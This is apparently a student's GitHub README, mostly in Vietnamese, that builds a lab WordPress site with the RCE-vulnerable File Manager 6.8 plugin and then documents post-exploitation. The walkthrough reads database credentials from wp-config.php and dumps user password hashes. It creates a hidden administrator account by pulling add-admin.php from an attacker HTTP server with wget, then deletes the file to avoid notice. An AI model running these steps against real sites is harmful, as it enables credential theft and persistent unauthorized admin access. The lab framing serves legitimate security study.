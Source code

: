 # WordPress-Privilege-Escalation

**Author:** Dang Duy Hau <br>
**Affiliation:** Hanoi University of Science and Technology <br>

Thank you, Dr. Vu Thanh Nam, for helping me develop this project.

## Set up environment

1. Cài WordPress thủ công trên Ubuntu

- Máy ảo VirtualBox (dùng Ubuntu 20.04LTS)
- Cài Apache, MySQL, PHP:
  sudo apt update && sudo apt install apache2 mysql-server php php-mysql libapache2-mod-php php-curl php-gd php-mbstring php-xml php-zip unzip wget -y
- Cấu hình MySQL:
  sudo mysql_secure_installation
- Tạo database:
  sudo mysql -u root -p
  CREATE DATABASE wordpress DEFAULT CHARACTER SET utf8 COLLATE utf8_unicode_ci;
  CREATE USER 'wpuser'@'localhost' IDENTIFIED BY 'StrongPass123!';
  GRANT ALL PRIVILEGES ON wordpress.\* TO 'wpuser'@'localhost';
  FLUSH PRIVILEGES;
  EXIT;

2. Tải WordPress và giải nén
   cd /tmp
   wget https://wordpress.org/latest.tar.gz
   tar -xvzf latest.tar.gz
   sudo mv wordpress /var/www/html/
   sudo chown -R www-data:www-data /var/www/html/
   sudo chmod -R 755 /var/www/html/

3. Cấu hình Apache Virtual Host (nếu cần)
   sudo mousepad /etc/apache2/sites-available/wordpress.conf

<VirtualHost \*:80>
DocumentRoot /var/www/html
<Directory /var/www/html>
AllowOverride All
</Directory>
</VirtualHost>

- Kích hoạt:
  sudo a2ensite wordpress.conf
  sudo a2enmod rewrite
  sudo systemctl restart apache2

4. Cài đặt WordPress trong trình duyệt
   Truy cập http://localhost để hoàn tất setup → nhập thông tin DB:

DB name: wordpress

Username: wpuser

Password: StrongPass123!

5. Tải Plugin File Manager bản cũ (<= 6.8)
   Phiên bản mới đã vá lỗi. Bạn phải tải thủ công từ kho lưu trữ plugin cũ:
   Link trực tiếp bản 6.8 (có lỗ hổng RCE):
   wget https://downloads.wordpress.org/plugin/wp-file-manager.6.8.zip

Giải nén và cài:
unzip wp-file-manager.6.8.zip
sudo mv wp-file-manager /var/www/html/wp-content/plugins/
sudo chown -R www-data:www-data /var/www/html/wp-content/plugins/wp-file-manager

6. Xử lỗi
   khi truy cập http://localhost thì xảy ra lỗi:
   Hiện bạn đang thấy trang mặc định của Apache2, không phải trang cài đặt WordPress. Điều này có nghĩa là Apache đang phục vụ file mặc định /var/www/html/index.html thay vì WordPress. Đây là lỗi phổ biến, và bạn chỉ cần xử lý một bước sau để chuyển hướng đúng đến WordPress.
   Nguyên nhân:
   Trang Apache mặc định vẫn tồn tại trong /var/www/html/ chứa file: /var/www/html/index.html

Trong khi WordPress nằm ở: /var/www/html/wordpress/ hoặc /var/www/html/ (nếu bạn đã move toàn bộ)
Cách xử lý lỗi để hiển thị trang cài đặt WordPress:
Bước 1: Xóa file mặc định index.html: sudo rm /var/www/html/index.html, File này đang "chắn đường" WordPress, nên Apache hiển thị nó thay vì WordPress index.php.
Bước 2: Kiểm tra thư mục chứa WordPress:
Nếu bạn chạy: ls /var/www/html/
Bạn nên thấy:
index.php wp-config-sample.php wp-content/ wp-includes/ wp-admin/ ...
Nếu thấy wordpress/ thì bạn cần move lại:
sudo mv /var/www/html/wordpress/_ /var/www/html/
sudo mv /var/www/html/wordpress/._ /var/www/html/ 2>/dev/null
sudo rmdir /var/www/html/wordpress/
Bước 3: Cấp quyền lại cho Apache
sudo chown -R www-data:www-data /var/www/html/
sudo find /var/www/html/ -type d -exec chmod 755 {} \;
sudo find /var/www/html/ -type f -exec chmod 644 {} \;
Bước 4: Khởi động lại Apache
sudo systemctl restart apache2
Bước 5: Truy cập lại trình duyệt
Mở lại trình duyệt:
👉 http://localhost

Bạn sẽ thấy giao diện cài đặt WordPress:
Chọn ngôn ngữ → Nhập thông tin database → Tạo admin user

=>>> Okela

python3 -m venv myenv
source myenv/bin/activate
pip install -r requirements.txt

certifi==2020.6.20
chardet==3.0.4
colorama==0.4.3
idna==2.10
requests==2.24.0
urllib3==1.25.10

Cách truy vấn cơ sở dữ liệu khi đã RCE:

- Khi đã có quyền www-data: dò tìm các thông tin liên quan đến CSDL: username, password, tên CSDL, được thông tin:
  (hau)cat /var/www/html/wp-config.php | grep DB\_
  define( 'DB_NAME', 'wordpress' );
  define( 'DB_USER', 'wpuser' );  
  define( 'DB_PASSWORD', 'qwerty' );  
  define( 'DB_HOST', 'localhost' );  
  define( 'DB_CHARSET', 'utf8mb4' );  
  define( 'DB_COLLATE', '' );

- Sau đó truy cập với quyền này vào CSDL, liệt kê các bảng trong CSDL:
  (hau)mysql -u wpuser -p'qwerty' -e "SHOW TABLES;" wordpress  
  Tables_in_wordpress
  wp_commentmeta  
  wp_comments  
  wp_links  
  wp_options  
  wp_postmeta  
  wp_posts  
  wp_term_relationships  
  wp_term_taxonomy  
  wp_termmeta  
  wp_terms  
  wp_usermeta  
  wp_users  
  wp_wpfm_backup

- Rồi tiếp tục trích xuất thông tin nhạy cảm từ các bảng của CSDL, do với mục đích leo thang lấy quyền admin nên chúng ta sẽ khai thác trên bảng dữ liệu này, lấy thông tin của bảng user:
  (hau)mysql -u wpuser -p'qwerty' -e 'DESCRIBE wp_users;' wordpress  
  Field Type Null Key Default Extra
  ID bigint unsigned NO PRI NULL auto_increment  
  user_login varchar(60) NO MUL  
  user_pass varchar(255) NO  
  user_nicename varchar(50) NO MUL  
  user_email varchar(100) NO MUL  
  user_url varchar(100) NO  
  user_registered datetime NO 0000-00-00 00:00:00  
  user_activation_key varchar(255) NO  
  user_status int NO 0  
  display_name varchar(250) NO

- Xem các thông tin bảng Users:
  (hau)mysql -u wpuser -p'qwerty' -e 'SELECT \* FROM wp_users;' wordpress  
   ID user_login user_pass user_nicename user_email user_url user_registered user_activation_key user_status display_name  
   1 wpuser $wp$2y$10$wkuVmB1OiLRpaN6XVSgHHOwEy9t3aLFjnTcwkgUifTGTSZjiPjLvS wpuser phototailieuhomc@gmail.com http://localhost 2025-05-21 10:43:06 0 wpuser  
   2 hanzou $wp$2y$10$3aEcTeJpKUlkvs4oj2Ln6uWStJPtn4c.Ser4BnIv1QicXLTwHh8U6 hanzou  adminminad@example.com2025-05-28 10:10:14              0       hanzou                                                                 
3       admin2025       $wp$2y$10$PhOTCfNVzZe7Y5zpNABPOe6JJE.nRVL5ZUGrBfHJZlwr.8lfSF6FS admin2025 adminad@example.com 2025-05-28 10:16:20 0 admin2025

Trong quá trình khai thác hệ thống thông qua lỗ hổng RCE (Remote Code Execution), tôi không thể sử dụng giao diện tương tác của MySQL bằng cách gọi trực tiếp lệnh mysql -u wpuser -p'qwerty' wordpress và sau đó nhập từng câu lệnh SQL như SHOW TABLES; do hạn chế của môi trường thực thi. Cụ thể, khi truy cập qua webshell hoặc kênh RCE, môi trường shell không cung cấp đầy đủ các tính năng của một terminal tương tác, chẳng hạn như không hỗ trợ TTY, không có đầu vào chuẩn (stdin) và đầu ra chuẩn (stdout) truyền thống. Do đó, các lệnh SQL nhập vào sau khi khởi động MySQL shell sẽ không được thực thi hoặc không hiển thị kết quả.

Thay vào đó, tôi sử dụng cú pháp dòng lệnh dạng non-interactive với tùy chọn -e, cho phép thực hiện truy vấn SQL trực tiếp trong một lần gọi lệnh, ví dụ: mysql -u wpuser -p'qwerty' -e 'SHOW TABLES;' wordpress. Phương pháp này giúp MySQL thực thi lệnh ngay lập tức và trả về kết quả ra đầu ra chuẩn, phù hợp với điều kiện hạn chế của môi trường RCE. Việc sử dụng lệnh -e trong mọi truy vấn SQL là cần thiết để đảm bảo quá trình truy xuất dữ liệu từ cơ sở dữ liệu được thực hiện trơn tru và có thể quan sát được kết quả.

Kiểm tra quyền admin của các user hiện tại:
(hau)mysql -u wpuser -p'qwerty' -e "SELECT \* FROM wp_usermeta WHERE meta_key='wp_capabilities';" wordpress  
umeta_id user_id meta_key meta_value
12 1 wp_capabilities a:1:{s:13:"administrator";b:1;}  
31 2 wp_capabilities a:1:{s:13:"administrator";b:1;}  
45 3 wp_capabilities a:1:{s:13:"administrator";b:1;}

- thêm người dùng:
  Dưới đây là một file PHP đơn giản dùng để tạo tài khoản admin mới trong WordPress, bằng cách sử dụng đúng hàm wp_create_user() và wp_insert_user() của WordPress – đảm bảo đúng chuẩn hệ thống và tránh lỗi hash password.

1. Tạo file PHP tên add-admin.php với nội dung...
2. Upload file này lên thư mục gốc WordPress: Qua webshell / RCE của bạn → đưa add-admin.php vào cùng nơi với wp-load.php: /var/www/html/
3. Truy cập file này trên trình duyệt: http://target-site.com/add-admin.php
   Nếu thành công, bạn sẽ thấy: Administrator account created successfully!
4. Đăng nhập WordPress:
   Địa chỉ đăng nhập: http://target-site.com/wp-login.php

Username: admin2

Password: admin21!
Gỡ file ngay sau khi xong: Vì file này cho phép tạo admin, bạn cần xóa nó để tránh bị người khác khai thác, hoặc bị phát hiện bởi quản trị viên server:
rm /var/www/html/wordpress/add-admin.php

Dùng webshell để tải file từ máy tấn công:
Bước 1: Tạm thời mở HTTP server trên máy tấn công
Trên máy tấn công, chạy: python3 -m http.server 8000
→ Lúc này file add-admin.php sẽ có URL là: http://<YOUR-IP>:8000/add-admin.php
Bước 2: Dùng webshell hoặc RCE để tải về
Trên máy nạn nhân (qua shell), chạy:wget http://<YOUR-IP>:8000/add-admin.php -O /var/www/html/add-admin.php
Bước 3: Truy cập script trên trình duyệt: http://<VICTIM-DOMAIN>/add-admin.php
Bước 4: Xóa script sau khi dùng xong: rm /var/www/html/add-admin.php

